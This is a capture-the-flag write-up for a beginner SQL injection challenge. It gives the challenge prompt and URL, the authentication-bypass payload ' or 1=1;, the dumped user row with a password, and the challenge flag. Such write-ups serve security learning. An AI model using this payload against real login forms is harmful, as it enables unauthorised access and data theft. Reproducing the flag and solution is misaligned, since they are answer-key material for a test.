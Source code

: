 # Beginner - SQL (by Dax)

## 1 - The Most Basic Form of Injection.   

* **Track:** sql injection
* **Points:** 3

### Challenge

> SQL injection is probably one of the most common vectors of attack for poorly designed websites. This page is vulnerable to it. You can use username test and password test if you want to test the page before the injection.
> https://sqli.dax.hfctf.ca/  

### Solution

     ' or 1=1;

| userId | username | userpass | description |
| 1 | sp00ky | SwibAPCMuj34 | You found a flag! HF-nhnq0PRIVvjg3c6ZqJtBrbcXz98XCdJl |


### Flag

```
HF-nhnq0PRIVvjg3c6ZqJtBrbcXz98XCdJl
```
 